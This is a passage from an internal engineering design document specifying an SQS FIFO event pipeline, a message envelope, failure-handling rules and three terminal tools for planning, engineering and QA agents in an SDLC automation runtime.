- **A poison message blocks its entire message group, and partial-batch reporting does not rescue it.** For a FIFO source, `ReportBatchItemFailures` returns the failed message *and every later message in that group* — that is what preserving order means. It is still worth setting (it stops a batch spanning several sessions from re-delivering unrelated sessions' messages), but it does not let a session's events flow past a message it cannot process. **The group stays blocked until `maxReceiveCount` is exhausted and the message moves to the DLQ.**

  So the real number to choose is how long a cycle may freeze. At `maxReceiveCount = 3` with `visibility_timeout_seconds = 180`, that is roughly **9 minutes** of frozen cycle before the DLQ releases the group — against a 20-minute stall threshold (`cycleStatuses.js:144`). It fits, with margin, and the numbers below are picked for that budget rather than copied from the devops queues. Shortening the visibility timeout shortens the freeze but risks re-delivering a message the consumer is still working on; 180s against a 3-minute consumer timeout is the tightest pair that stays safe.
- FIFO throughput is 300 msg/s per queue (3,000 batched), far above anything 10 concurrent sessions can produce — especially under the coalescing in §2.5.

#### Queue configuration

Following the repo's established shape (`devops-diagnosis.tf:10-29` is the cleanest example — long polling, DLQ, `maxReceiveCount = 3`) rather than `bedrock_queue` (`main.tf:435-447`), which has **no DLQ at all** and `receive_wait_time_seconds = 0`, and should not be the template:

```hcl
resource "aws_sqs_queue" "sdlc_events" {
  name                        = "${var.project_name}-sdlc-events-${var.environment}.fifo"
  fifo_queue                  = true
  content_based_deduplication = false
  visibility_timeout_seconds  = 180   # >= consumer timeout
  message_retention_seconds   = 86400
  receive_wait_time_seconds   = 20
  redrive_policy = jsonencode({
    deadLetterTargetArn = aws_sqs_queue.sdlc_events_dlq.arn
    maxReceiveCount     = 3
  })
}
```

Plus a `.fifo` DLQ with 14-day retention, a CloudWatch alarm on `ApproximateNumberOfMessagesVisible > 0` on the DLQ (a poison event must page, not sit), and one IAM statement on the runtime instance role — `sherpa-ec2.tf` currently has no `sqs` reference at all:

```hcl
statement {
  actions   = ["sqs:SendMessage", "sqs:GetQueueUrl"]
  resources = [aws_sqs_queue.sdlc_events.arn]
}
```

The runtime learns the queue URL from one new systemd env var alongside the existing block (`sherpa-ec2-cloud-init.sh.tftpl:144-157`). Note this creates a Terraform dependency from `sherpa-ec2.tf` onto a queue that CC owns — fine, but it means the runtime's cloud-init now changes when the queue does, which is a new coupling to be aware of at deploy time.

#### Message envelope

```jsonc
{
  "v": 1,
  "sessionId": "sess_...",
  "dedupId": "9f2c…",              // UUID v4, minted per envelope. IS the MessageDeduplicationId.
  "publishedAt": "2026-09-23T14:02:11.441Z",
  "correlation": {                 // opaque to the runtime; echoed from session create
    "applicationId": "app_...",
    "cycleId": "CYCLE#...",
    "stage": "engineering"         // 'planning' | 'engineering' | 'qa'
  },
  "events": [ /* one or more SdlcEvent, see below */ ]
}
```

The `correlation` blob is the mechanism that removes the session→cycle lookup. CC supplies it at create time; the runtime stores it on the session and stamps it onto every message without interpreting it. The consumer therefore resolves `PK`/`SK` directly from the message — no DynamoDB read, no GSI, no map to keep consistent. It also carries `stage`. `mapSessionEvent` hardcodes `stage: 'engineering'` (`runtimeEvents.js:56,68,75`); with three session kinds it has to be passed in, and it arrives with the message.

`v` is there so the envelope can change without a coordinated deploy. The runtime and the consumer ship from different repos on different cadences; this is the one field that makes that survivable.

#### The event set

```ts
type SdlcEvent =
  // --- already in the protocol (packages/protocol/src/messages.ts) ---
  | { type: 'toolStart';     tool: string; input: Record<string, unknown> }
  | { type: 'toolEnd';       tool: string; status: 'success'|'error'; output?: string }
  | { type: 'progress';      message: string }
  | { type: 'error';         error: string }
  | { type: 'sessionStatus'; status: 'active'|'paused'|'completed'|'queued';
                             reason?: PauseReason }   // reason is NEW — see below
  | { type: 'planCreated';   filePath: string; content: string }
  // --- new ---
  | { type: 'completion';    payload: CompletionPayload };
```

**`completion` carries one of two shapes, discriminated on the name of the tool that produced it** (amended — see §2.6 for why the three typed payloads became two shapes):

```ts
type CompletionPayload =
  | EngineeringCompletion                          // reportCompletion — typed
  | { kind: 'plan' | 'review'; payload: unknown }  // submitPlan / submitReview — opaque
```

Each is produced by its own terminal tool, and each role's allowlist grants exactly one of them (§4.3): `submitPlan` → `kind: 'plan'`, `reportCompletion` → `EngineeringCompletion`, `submitReview` → `kind: 'review'`. The runtime does not know which step it is running; it knows which tool it granted, and **the tool name is the discriminator**. That keeps the union a fact about tools rather than about SDLC steps — which is now literally true, because for two of the three the runtime cannot read the payload at all.

**The discriminator is load-bearing and must not be collapsed into `correlation.stage`.** The two come from different sources and their disagreement is the only available signal: `stage` is what CC *said* it was doing at create time, `kind` is what tool the runtime actually *granted*. A mismatch means CC granted the wrong allowlist — a configuration bug, replayable after a fix, and therefore a **protocol violation that goes to the DLQ** (see the disposition principle below). Drop the discriminator and an engineering payload arriving on the `qa` stage is read as a review payload, its `payload` is `undefined`, and it is misdiagnosed as bad model output — which gets the wrong disposition entirely.

Everything else the human WebSocket carries — `streamStart`, `streamDelta`, `streamEnd`, `toolRejected`, `sessionSync`, `taskTrackerUpdate`, `subAgent*`, `tokenUsage`, `connected`, `pong`, `catchUp` — is **never published**. `modeSwitch` is excluded too: it fires only when the agent calls `switchMode` (`orchestration-tools.ts:18-30`), which no role's allowlist grants (§4.3), and CC never switches a live session's mode (§3.2). It cannot occur in an SDLC session. `streamDelta` alone is the majority of the human stream's frames and has no cycle effect. That filter is the point of a separate publication path.

Two additions to `SessionStatus` (`packages/protocol/src/session.ts:1`, currently `'active' | 'paused' | 'completed'`):

- **`reason?: PauseReason`** on `sessionStatus`. An SDLC session cannot pause on a gate — there are no approvals and no questions (§4.1, §4.2) — so every pause is a failure of some kind: `max_turns` (200 default, `agent-engine.ts:44`), `llm_error`, `sso-expired`, `context_exhausted`, `inactivity_timeout`. All of them arrive as `status: 'paused'` with nothing to tell them apart, and they want different responses: `max_turns` means the task was too big for one session, `sso-expired` means credentials on the instance need attention, `llm_error` is worth a retry. `PauseReason` is already a structured type (`engine/engine-types.ts:54-63`) built explicitly so *"surfaces don't string-sniff progress text to decide what to do next"*; it just never reaches the wire.
- **`'queued'`** as a status, for a session waiting behind `MAX_CONCURRENT_SESSIONS=10`. Otherwise a queued session is indistinguishable from a running one and the cycle shows work happening when nothing is.

#### What the consumer does

`runtimeEvents.mapSessionEvent` (`:47-101`) is kept — it is already correct against the real protocol and already returns the right effects vocabulary (`activity` / `cycleField` / `status` / `complete`). Changes:

- `stage` comes from `correlation.stage` instead of the hardcoded `'engineering'` (`:56,68,75`).
- New `completion` arm carrying a `CompletionPayload`, dispatched on `kind`. This **removes the fetch-the-session round trip**: `buildCompletionEffect(session)` (`:113-133`) exists only because `commitSha`/`branch` are not in any event. Now they are. Keep `buildCompletionEffect` as the fallback for a session that ends without calling the tool — that arm already returns `success: false` with a usable message (`:114-122`).
- `planCreated` → **an activity line, and nothing else.** *Amended: this bullet previously said "persist to `expandedRequirements`", which contradicted §3.1 of this same document — "Do not ask the planner to write markdown and then parse it back."* §3.1 is right and this bullet was the leftover. The durable plan artifact comes from `submitPlan`'s payload; `planCreated` is a progress signal whose only loss, if it never arrives, is one activity line.

**Most events are stage-agnostic; two kinds are not.** `toolStart`, `toolEnd` and `progress` become activity lines and differ only in the label they carry, which is why passing `stage` is enough for them. `completion` and `error` mean different things per step, and the consumer must dispatch on `correlation.stage` rather than assuming engineering:

| Event | `planning` | `engineering` | `qa` |
|---|---|---|---|
| `completion` | `kind: 'plan'` → persist `expandedRequirements`, transition `PLANNING_REVIEW` (§3.1) | `kind: 'engineering'` → the engineering-completion sequence in §3.3: validate, set `branch`/`githubUrl`, open the draft PR, then route | `kind: 'review'` → write `qaResult`, post the review, pass → PR-ready, fail → new engineering session (§3.5) |
| `error` | `PLANNING_FAILED` | `ENGINEERING_FAILED` (Phase 4b) | `QA_FAILED` |

That second row is a live defect in the mapper, not just a new requirement: `mapSessionEvent` maps `error` to `cycleStatuses.FAILED` unconditionally (`runtimeEvents.js:77-84`). Correct while engineering was the only runtime-executed step; wrong the moment a plan or QA session can fail, because `PLANNING_FAILED` and `QA_FAILED` are `ATTENTION_STATUSES` a human can act on and `FAILED` is not. `ENGINEERING_FAILED` does not exist yet — Phase 4b adds it so all three steps report failure the same way and a cycle in a failed state says which step died.

The stage dispatch above belongs in `mapSessionEvent`, which is where `stage` already arrives, and keeping it there preserves the property that made the mapper worth keeping: it is pure, so the whole table above is unit-testable without a queue, a session, or a deployed runtime.

**`applyRuntimeEffect` does need one structural change, contrary to what this document originally said.** Its `default` arm is a `console.warn`. Under at-least-once delivery that is a **silent data loss**: the consumer reports no batch-item failure, so SQS deletes the message, and any effect kind the mapper can produce but the executor cannot handle vanishes with a log line nobody reads. **Make it throw.** One `throw` converts a twenty-minute unexplained stall into a DLQ entry and an alarm, and makes the whole effect vocabulary fail-closed.

#### Failure disposition — a principle, not a case list

**Two kinds of thing go wrong in the consumer and they want opposite handling. This is the distinction an implementer is most likely to collapse, so it is stated as a question rather than a table of cases:**

> **Would a redrive after a code deploy succeed?**
> **Yes** → report a batch-item failure. SQS retries, the DLQ catches it, the alarm pages, and the events replay correctly once the fix ships.
> **No** → write a terminal cycle status and **consume the message**.

Getting it backwards is expensive in both directions. A DLQ for a deterministic failure spends ~9 minutes of a frozen `messageGroupId` (see the FIFO note below) to re-derive an answer the first attempt already had — and freezes every *later* event for that session too. A terminal status for a protocol failure throws away events a redrive would have replayed.

Applied: an unparseable body, an unknown envelope `v`, an unrecognised `kind`, a `kind`/`stage` mismatch, a stage no phase supports yet, and an effect kind the executor cannot handle are all **DLQ** — the message is fine and the consumer is not ready for it. A **malformed plan or review payload is not**: the model produced bad output, three retries read the same bytes and fail identically, so it becomes `PLANNING_FAILED` / `QA_FAILED` naming the offending field, with the message consumed and the raw payload logged for diagnosis. Both are `ATTENTION_STATUSES` with working retries, so the failure is an operator action on a visible cycle rather than a lost artifact.

This principle is new in the amendment and it exists because §2.6's change created the category: once the runtime stopped enforcing a payload schema, a malformed payload stopped being a contract breach between two codebases and became an ordinary model failure — a thing that will happen routinely.

**Consumer placement:** a new Lambda (`sdlcEventConsumer`), not a new branch inside `agentDrivenOrchestrator`. It needs `applyRuntimeEffect`, `routeAfterEngineering` and the transition machinery, all of which live in `index.js` — so either it imports from there (the file is already 4,984 lines and not structured for it) or the shared pieces move to `backend/common/`. Moving them is the right answer and it is a real refactor, not a free one; budget for it in Phase 3. A 3-minute timeout is generous for what the consumer does.

#### One contract, three languages — a single source of truth is now a requirement, not hygiene

**New, and it is the consequence of the Go mandate (§5.5) that this document is the right place to hold**, because it is a contract requirement rather than a language choice.

Two artifacts on this boundary are about to exist in three languages at once:

| Artifact | Where it lives | Languages |
|---|---|---|
| The **event envelope** — `v`, `sessionId`, `dedupId`, `publishedAt`, `correlation`, `events[]`, and the event union | Published by the runtime, validated and consumed by CC | **TypeScript** (the runtime publisher) + **Go** (the consumer) |
| The **cycle-effect rules** — the event→effect mapping, the per-stage failure statuses, the completion dispatch, the disposition principle above | CC only, but on two code paths | **Go** (the new consumer) + **JavaScript** (already shipped on `develop`) |
| The **activity-feed selector** and the cycle record's field names | Read by three surfaces | **JavaScript** (orchestrator, frontend), **Go** (the migrated handlers), **Python** (`backend/lambda_handlers/sherpa/tools/cc_cycles.py`) |

That third row is the one that makes this structural rather than incidental. `cc_cycles.py` reads the cycle record directly — today it reads `progressLog` alone, and therefore has the *same* class of defect §1.5 describes, from a third language, unnoticed. **So the activity-feed contract §1.5 fixes has three independent implementations and no shared definition.** Any Phase 0 fix that lands a selector in JS and a documented port in Python still leaves two copies, and the Go migration adds a third.

**The requirement, stated as design:**

1. **One normative definition per contract, in one place, with the others declared as ports.** This document has an established precedent for exactly this — the SDK's S3 key rules are hand-ported into CC with a header saying so and a drift-guard test pinning the port (R9). That pattern is the answer here too, applied deliberately rather than discovered after a drift.
2. **Every port carries a drift guard, and the guard fails the build.** A port with a comment and no test is a copy. R9 exists because a port without a guard silently emptied a session list; the same mechanism with three copies instead of two is strictly more likely to drift, not less.
3. **Prefer eliminating a copy to guarding it.** Two of these do not need to be ports at all. The envelope is a wire format and could be generated from one schema rather than restated twice. And `cc_cycles.py` reads the cycle record only to render it — if it read through an API that already applies the rules, the Python copy disappears instead of being guarded. **Deleting a copy is worth more than testing it**, and the moment to notice that is while the Go shape is being chosen, not after three implementations exist.

**Why this belongs here and not in the implementation spec.** The spec will decide *where* the normative definition lives, which is a packaging question. Whether a contract on this boundary is allowed to have an unguarded second implementation is a design question, and the answer is no. **§7 R18 records the risk; this is the rule.**

#### What no backstop means

SQS retries on its own, the DLQ catches poison messages, and no invocation spans a session, so there is no long-lived thing to die. The failure modes are narrow and each has an owner:

| Failure | What happens |
|---|---|
| Consumer throws on one event | The session's group freezes while SQS retries ×3 (~9 min at the numbers above), then the message moves to the DLQ, the alarm fires, and the group resumes. Ordering is preserved throughout — later events wait, they are not skipped. |
| Runtime fails to publish (SQS down, IAM wrong) | The cycle stalls. This is the real remaining gap — nothing on the CC side knows a message was never sent. Caught by `isStalled` at 20 min (`cycleStatuses.js:157-164`) and `stuckCycleDetector` on `rate(5 minutes)` (`infrastructure/lambdas.tf:2314`). |
| Runtime process dies mid-session | Same as above, and the session is genuinely gone. Stall detection is the correct handler. |
| Session completes, `completion` message lost | Dedup window expiry means a redrive replays it cleanly; `routeAfterEngineering` is the guarded entry (PR-create already checks `!cycle.pullRequest?.number` at `index.js:1857`). |

So the honest statement is: **the transport is now reliable, and the remaining risk is that the publisher never publishes.** That is a much smaller and much more diagnosable surface than "a socket died and nobody noticed," and the existing 20-minute stall detection is an appropriate, already-built response to it — rather than, as before, the only response to a routine occurrence.

### 2.5 Publish cadence

Not every event deserves a message. Two tiers.

**Tier 1 — immediate, never coalesced.** Anything that changes cycle state:

| Event | Why immediate |
|---|---|
| session started (`sessionStatus: 'active'`) | The cycle should show work beginning without a 10s lag |
| `error` | Drives `applyTransition(FAILED)` — delay here is delay in telling a human |
| `completion` | Terminal. Carries the step's payload (§2.6) and triggers the engineering-completion sequence, i.e. PR creation (§3.3) |
| `planCreated` | Produces the durable `expandedRequirements` the approval gate reads |
| `sessionStatus: 'paused'` with a `reason` | The session has stopped and will not resume itself — `max_turns`, `llm_error`, `sso-expired`. Actionable now, and coalescing it would delay the only signal that work ended early. |

**Tier 2 — coalesced on a ~10 second window.** Activity and tool events (`toolStart`, `toolEnd`, `progress`), batched into one message carrying an `events[]` array. **Publish nothing when the window is empty** — an idle session must not emit heartbeat traffic.

Two independent justifications, both grounded rather than aesthetic:

1. **Higher frequency is invisible.** The frontend polls cycles every 10 seconds (`frontend/src/pages/ApplicationDetail.jsx:205`), and `CycleProgress.jsx:75-76` renders `activities.slice(-10).reverse()` — the last ten entries only. Publishing per-tool-call would write rows that are overwritten in the UI before anyone sees them. The transport would be doing measurably more work to display strictly less.

2. **DynamoDB write cost is driven by item size, not delta size.** Activities are appended with `list_append` onto the cycle record (`progressLogger.js:44`, `orchestratorHandler.js:102`), and DynamoDB charges WCUs on the **post-update item size** — not on the bytes added. The cycle record also carries `expandedRequirements` (§1.4: `summary`, `approach`, `requirements[]` with nested `acceptanceCriteria`, `risks[]`, `assumptions[]`, `filesToCreate[]`, `filesToModify[]`), so it is a large item from the moment planning completes. Every per-tool append therefore rewrites that whole item, against a single partition key, at up to the per-partition write ceiling. A session making a tool call every second or two would hammer one key with large writes all the way through the engineering step. Coalescing to 10s cuts that by roughly an order of magnitude at zero cost to what anyone can see.

**Where the coalescing lives:** the runtime, not the consumer. Batching on the publish side means fewer SQS messages, fewer Lambda invocations, and fewer DynamoDB writes. Batching on the consume side would save only the last of those. It is a small buffer with a flush timer, flushed unconditionally on any Tier 1 event so a `completion` never arrives before the activity that preceded it — which is also why ordering must hold: same `messageGroupId`, so FIFO guarantees the flush lands before the terminal message.

**If per-tool fidelity is wanted later, do not publish more often.** The fix is to store activities as **separate DynamoDB items under the cycle** (`PK = CYCLE#<id>`, `SK = ACTIVITY#<seq>`) rather than as a list on the cycle item. That makes each write small and constant-size regardless of how much history exists, and removes the item-size problem entirely. Flag clearly: **it changes the read path.** `ApplicationDetail.jsx` gets the activity feed for free today because it comes embedded in the cycle record it already polls; separate items mean a second query and a merge, in a component that currently does one `GET` per poll. That is a deliberate trade to make later with the UI in view, not a transport decision.

### 2.6 The three terminal tools

Each role finishes by calling exactly one tool, and that tool produces the `completion` payload (§2.4). None of the three exists today.

> **Amended 2026-09-24. Still three named tools, but only one of them is typed.** `reportCompletion` keeps its schema. `submitPlan` and `submitReview` carry an **opaque `payload`** that the runtime forwards verbatim, validated at the tool boundary against a **CC-authored `resultSchema`** supplied at session create and executed generically. An interim proposal to collapse all three into a single generic `submitResult` was **withdrawn**: it lost the tool name as a discriminator (§2.4) and bought nothing the opaque payload does not already buy.

**The decisive fact, and it invalidates this section's original premise: `inputSchema` is never read at runtime.** It is assembled into Bedrock's `toolConfig` and nothing consults it again. There is no schema validator in either repo. So the in-session rejection this section originally relied on — *"`toolError` telling the agent so it can correct itself"* for a malformed structured payload — **never existed for any declared field**. The model is *prompted* by the schema, not constrained by it, and every actual check is whatever the handler hand-rolls.

**And the hand-rolled equivalent has already drifted silently in shipped code.** `saveLearnedPattern` declares `required: ['title', 'category', 'content']`; its handler requires `input.title` and `input.pattern` — a field the schema **never declares at all** — and never reads `content`, which the schema declares required. The model sends what it was asked for, the handler demands something it was never told about, and the tool therefore fails on **every** call. `updateTechDebt` has the same class of defect. No test notices, because nothing cross-checks a declaration against its handler and nothing enforces the declaration.

That changes the calculus completely. The choice was never "enforced schema versus opaque blob"; it was **"a prompt plus a hand-rolled check, versus a prompt plus a generic check"**. Once that is clear, two things follow:

1. **A typed payload in the protocol package buys no enforcement** — only field names in a package that cannot be deployed quickly.
2. **A generic validator buys enforcement the typed design never had**, for all three tools, with one implementation to keep honest instead of nineteen.

**The rationale was deploy economics, not §1.1 — and amended 2026-09-25, that rationale is much weaker than when it was written. The conclusion survives on the other argument.**

As originally argued: the boundary argument is the weaker one (§1.1 — the runtime already knows "plan" as a first-class concept, and `instructions` carries far more SDLC content across the same boundary), so what decided it was that the runtime has **no deploy pipeline, no session drain and no observable version**, meaning anything in its release cycle iterates on that cycle's terms.

**What changed: the tools need no SDK release at all.** The MCP provider seam exists in the deployed 4.0.1 (see the retraction in §4.3), so the terminal tools are injected from `apps/runtime` with no publish and no version bump. **A schema field on a typed tool would therefore have cost a runtime deploy, not an SDK release — one outage window instead of a cross-repo release train.** That is a materially smaller bill than the one this argument was built on, and it would be dishonest to keep asserting the larger one.

**The conclusion does not change, and the argument that now carries it is the boundary one — which this document had rated weaker.** Two reasons it is sufficient on its own:

1. **CC's plan schema in the runtime's protocol package is still CC's schema in the runtime's package.** That is true regardless of what a change costs to deploy. Cheap deploys make a coupling tolerable; they do not make it absent.
2. **The residual bill is still asymmetric, and asymmetry is the whole point.** A CC-side schema change is a CC pipeline deploy, measured in minutes. A runtime-side one is still a manual SSM command that stops the service and loses every in-flight session, human ones included. **A plan schema will be iterated on; everyone always iterates on a plan schema.** Keeping that iteration on the side with the cheap, automated, observable deploy remains correct even at a tenth of the original price.

So: **no re-litigation, but the recorded reason changes.** If a future reader reopens this on the correct observation that the deploy-economics argument has largely evaporated, the answer is that the decision now rests on §1.1 — invoked, as §1.1 says, as a heuristic that happens to point the same way as a residual cost asymmetry.

#### `reportCompletion` — engineering

> **⚠ Amended 2026-09-25 — `reportCompletion` no longer commits or pushes. It verifies. And the reason generalises into a rule that binds every tool on this runtime.**
>
> **The rule, and it is the durable part:**
>
> > **No MCP tool on this runtime may perform a non-idempotent side effect.**
>
> **Why.** Tools injected through the provider seam are dispatched via `useMcpTool`, whose metadata is `{ timeoutMs: 30_000, timeoutExempt: false }` (`tool-metadata.ts:21`), and the engine wraps every non-exempt handler in `withTimeout(toolPromise, meta.timeoutMs, signal)` (`agent-engine.ts:772`) — **a race that resolves a `toolError` without cancelling the underlying promise.** So a `git push` slower than thirty seconds is reported to the agent as *failed* and **lands anyway.** The cycle then sees a failed completion against a branch that really was pushed: the exact silent-wrong-state class this document spends §2.3 and §3.3 trying to eliminate, arriving through the tool surface instead.
>
> Thirty seconds is not a generous budget for `git push` over HTTPS against a cold remote, so this is a likely path, not a corner.
>
> **The new shape: the agent commits and pushes with `runCommand`; `reportCompletion` verifies and refuses.** It rejects a dirty tree, unpushed commits, or a detached HEAD, and reports `branch`/`commitSha` observed rather than produced.
>
> **This is better than the original design, not a workaround for a timeout — and it should be read that way.** A verifier is **idempotent and side-effect-free**, so a timeout retry, a duplicate dispatch or a replayed turn cannot double-push. The original design's whole burden was making a non-idempotent git sequence safe under retry; the new one makes the question not arise. The timeout did not force a compromise — **it exposed that the side effect was in the wrong place.**
>
> Two consequences for the text below. The `description` and `inputSchema` still stand, minus the promise to commit and push; `commitMessage` is no longer the tool's business, since the agent has already used it. And `EngineeringCompletion`'s `branch`, `commitSha`, `filesModified` and `pushed` remain exactly as specified — they are now *observations* rather than *results*, which is a change in provenance, not in shape, so nothing downstream of the payload changes.
>
> This also retires the git-primitive work item that appears in §5.4: the runtime needs no stage/commit/push/retry primitives, because it no longer performs the operation.


```ts
{
  name: 'reportCompletion',
  description: 'Finish the task: stage all changes, commit, push the branch, and report the result.',
  inputSchema: { json: { type: 'object', properties: {
    summary:       { type: 'string', description: 'One-paragraph description of what changed and why.' },
    commitMessage: { type: 'string', description: 'One-line commit subject.' },
    outcome:       { type: 'string', enum: ['success', 'blocked'] },
    blockedReason: { type: 'string', description: 'Required when outcome is "blocked".' },
    verification:  { type: 'string', description: 'What was run to verify (tests, build) and the result.' }
  }, required: ['summary', 'commitMessage', 'outcome'] } }
}
```

```ts
export interface EngineeringCompletion {
  kind: 'engineering';
  outcome: 'success' | 'blocked';
  summary: string;
  verification?: string;
  blockedReason?: string;
  branch: string;          // from git, after push
  commitSha: string;       // from git rev-parse HEAD, after push
  filesModified: string[]; // session.filesModified ∪ git name-only
  pushed: boolean;
  model: string;           // the model actually used — §2.3
  usage: { inputTokens: number; outputTokens: number };   // §2.3 token accounting
}
```

Behaviour:

- `outcome: 'blocked'` → no commit, no push; `pushed: false`, `commitSha`/`branch` from the current HEAD.
- `outcome: 'success'` with an empty tree → `toolError` telling the agent nothing changed, so it can correct itself rather than the cycle discovering it later.
- Push failure (non-fast-forward, auth) → `toolError` with git's stderr; the agent can rebase and retry. `ssmBuildRunner.gitPushWithRetry` (`:438-459`) retries 3 times, worth preserving — but the final failure must reach the agent, not be swallowed.
- The returned `ToolResult` content is the payload, so the agent sees what was recorded.

**This is new code, not wiring, and the estimate should say so.** `sherpa-sdk/packages/core` has **no commit or push primitive at all**. `git-worktree.ts`, `git-isolate.ts`, `git-sync.ts` and `git-checkout.ts` between them add worktrees, read branch/sha, fetch and reset — none of them stages, commits or pushes; `git commit` and `git push` appear only in test fixtures. So `reportCompletion` has to implement, from nothing: stage-all, commit with the agent's message, push with retry, empty-tree detection, branch resolution when HEAD is detached, and surfacing git's stderr usefully. It also needs the model id and the session's cumulative `TokenUsage` threaded into `ToolContext`, which currently carries neither (`engine/tools/tool-context.ts:38-59`).

Why a tool and not an API call: commit and push need the working tree, which only the session has. Making it a tool also means the agent *decides* it is done — the signal `ssmBuildRunner`'s `done` sentinel already provides (`ssmBuildRunner.js:162-171,349`), now with a real side effect attached.

#### `submitPlan` and `submitReview` — planning and QA

**Amended.** Both were originally specified with a typed payload in `@nevadoai/sherpa-protocol` — `PlanCompletion` carrying CC's `expandedRequirements` shape, `ReviewCompletion` carrying CC's QA vocabulary. Both now carry:

```ts
{
  outcome: 'success' | 'blocked';
  summary: string;              // human-readable, one paragraph
  blockedReason?: string;       // required when outcome is 'blocked'
  payload: unknown;             // OPAQUE. Object only. Forwarded verbatim.
}
```

Neither commits nor pushes — neither touches the working tree, which is also why the justification for `reportCompletion` being a tool at all (below) never extended to these two. The residual argument, that the agent decides it is done, a named tool serves just as well.

**No Command Center business field appears anywhere in the runtime's protocol package.** What remains is two tool *names* in the core package's tool specs — the discriminator §2.4 needs — and nothing else. `model` and `usage` ride the `completion` event alongside the payload, not inside it, so billing fields never pollute the artifact a human reviews.

**What the payload must contain is stated in CC's `instructions`** (§2.7), which CC already fully authors, **and validated by CC on receipt.** For continuity: the plan payload's field names are `generatePlan`'s, and in particular it is **`approach`, not `technicalApproach`** (§1.4 — `approach` has committed non-UI readers, so this is not a UI preference). It carries no `generatedBy`/`generatedAt`; CC stamps those. And it is `generatePlan`'s schema, **not** a union with the narrower fallback planner's — that divergence is why the checkpoint's evidence counts were meaningful or zero depending on which planner ran.

#### `resultSchema` — where the in-session check comes back

Moving the schema out of the protocol would, on its own, lose something real: the model's output would be checked only *after* the session ended, so a malformed plan would cost a whole session and a retry from scratch. **`resultSchema` recovers that, and recovers more than the typed design ever had.**

A new **optional** create-time field, authored by CC, stored beside `correlation`, and **executed generically by the runtime** over the payload before publishing. A failure is a **`toolError` handed back to the agent**, so it corrects **within the same turn** — which is strictly better than the original design, where `inputSchema` was never enforced at all and a malformed structured payload would have sailed through to the consumer.

Design constraints, each for a reason:

- **A bounded keyword subset, hand-rolled. No `ajv`.** A general-purpose validator is a large dependency and a large attack surface for a payload an LLM authored. `pattern` and `$ref` are **excluded as ReDoS vectors** — a CC-authored schema is not hostile, but a regex composed from model output evaluated against model output is not a risk worth carrying for a field nobody needs.
- **The runtime executes it without understanding it.** It walks keywords; it does not know that `requirements` is a plan concept. This is the same courier property as `correlation`, and it is what keeps the boundary honest: CC can add a field to its plan schema and the runtime enforces it **with no runtime deploy**.
- **Optional, and its absence means forward-unvalidated.** That is not laxness, it is **the load-bearing kill switch**: if the validator misbehaves in production it is disabled by removing a field from a CC-side config, with no runtime deploy — which matters precisely because a runtime deploy is the expensive thing this whole section is organised around.
- **CC's real size budget travels as `maxLength` / `maxItems` inside the schema.** The binding limit is **not** SQS's 256 KB message cap; it is the **400 KB DynamoDB item** the plan shares with `progressLog`, `iterations` and `activities` — so the true budget is smaller than the transport's, varies per cycle as the activity log grows, and only CC can compute it. Expressing it as schema keywords keeps that arithmetic where the knowledge is. The runtime still enforces a blunt outer bound so an oversized payload fails at the tool rather than failing to publish *after* the agent finished.

**The honest residual risk, which is new and belongs in §7:** a schema CC writes using a keyword the runtime's subset does not implement is **silently forward-unvalidated** — the same class of defect as `saveLearnedPattern`'s drift, one level up. The mitigation is that there is exactly one validator and one documented subset, pinned by a test shared between the two repos, rather than nineteen hand-rolled handlers. That is a real improvement, not an elimination.

#### Why QA still gets its own tool

**QA cannot use `reportCompletion`.** A review changes no files, so the empty-tree rule above would reject every honest QA completion, and `EngineeringCompletion` has nowhere to put findings. That argument survives the amendment unchanged — it is why there are three tools rather than two, and why the `submitResult` collapse was withdrawn.

**Two constraints on the review payload that CC must carry into its own schema**, because they were the real content of the deleted interface and they are easy to lose:

- **A finding's `line` must be a position in the new file as the diff sees it**, not a line in the working tree — those differ if the agent read a file it could not have changed. CC validates comment positions against the real diff before posting, because GitHub rejects the whole review otherwise. **A finding outside the diff is not dropped**, though: it degrades into a body line, so an inaccurate line is survivable and no validation should reject a whole payload over one.
- **A `fail` verdict with no findings must be rejected** — an agent that fails a review must say why. Originally a `toolError` from the tool schema; now a `resultSchema` constraint, which actually enforces it.

Severity is a CC-side concept throughout: it sets the verdict threshold and the GitHub review event, and is folded into the comment body when posting.

#### Mode gating

`buildToolConfig` filters by mode via `PLAN_BLOCKED_TOOLS`, today just `editFile` and `writeFile`.

> **⚠ Amended 2026-09-25 — the instruction that was here is inoperable, and following it would produce a control that does nothing.** It read: *"Add `reportCompletion` and `submitReview` to `PLAN_BLOCKED_TOOLS`: neither may run in plan mode. `submitPlan` is the inverse — plan-mode only — which `PLAN_BLOCKED_TOOLS` cannot express."*
>
> `PLAN_BLOCKED_TOOLS` removes **names from the engine's tool configuration**. All three terminal tools are supplied through the MCP provider and are therefore **never in that configuration** — the model sees `useMcpTool`, not `reportCompletion` (§4.3). So adding any of them to the Set is a **no-op by construction**, and a reviewer reading the Set would conclude a control exists that does not.
>
> **The gate moves to the provider, and this is an improvement.** `listTools()` and `executeTool()` are both invoked per session, so the runtime can withhold a tool from the advertised list *and* refuse it on execution, keyed on role and mode together. That is strictly better than a static per-mode Set: it is per-session, it can express "plan-mode only" — the case the Set could not — and it puts the decision in the process that already knows which role it is running.
>
> **Two layers, and both belong in the provider:** `listTools()` omits what the role may not use, so the model never learns the name; `executeTool()` refuses it anyway, so a name learned from the instructions or a stale transcript cannot be invoked. Withholding alone is not enough, because the calling convention is taught in prose (§4.3) and prose leaks.

**The allowlist is the real control, and it is now the *only* control at the tool-config layer.** The per-role allowlist (§4.3) is unchanged and still authoritative. What changed is that `PLAN_BLOCKED_TOOLS` is no longer a backstop behind it for the terminal tools — the provider is. A session created without a profile gets the interactive defaults, so a human session can in principle reach the meta-tools; nothing publishes for such a session (§2.4's filter keys on `application === 'sdlc'`), so the blast radius is a frame the human surfaces ignore — but the widened `ServerMessage` union needs an exhaustiveness audit on those surfaces, and this is why.

### 2.7 Instruction injection and message authorship

**Create-time `instructions`** is the full system prompt. CC composes it from what it already has:

```
AgentBootstrap(KB_BUCKET, role).assemble()        // common/agentBootstrap.js — AGENTS.md → SOUL.md → TOOLS.md → memory → skills
+ loadEngineeringDocumentation()                  // engineeringAgent/orchestratorHandler.js:1149-1194
+ retrieveRelevantContext(task, applicationId)    // common/knowledgeBaseLoader.js, RAG
+ per-app context (stack, conventions, deploy target)
+ the role's output contract ("call reportCompletion when done")
```

